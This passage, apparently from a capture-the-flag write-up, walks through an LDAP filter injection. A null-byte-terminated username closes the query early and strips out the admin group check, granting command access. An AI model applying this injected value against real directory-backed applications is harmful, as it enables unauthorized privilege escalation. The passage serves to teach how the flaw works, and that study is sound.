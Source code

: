     (&
      (&
        (objectClass=inetOrgPerson)
        (uid=ldapuser)
      )
    )



So that will work fine to get me in as ldapuser.

Next, it will submit that same username back to the second query to
check for admin. That becomes:



    (&
      (&
        (objectClass=inetOrgPerson)
        (uid=ldapuser)))%00)
        (|
          (gidNumber=4)
          (gidNumber=0)
        )
      )
      (pager=*)
    )



Again, truncating at the null:



    (&
      (&
        (objectClass=inetOrgPerson)
        (uid=ldapuser)
      )
    )



I've effectively removed the check for the group id number to be 0 or 4,
and that's how I can now run commands.





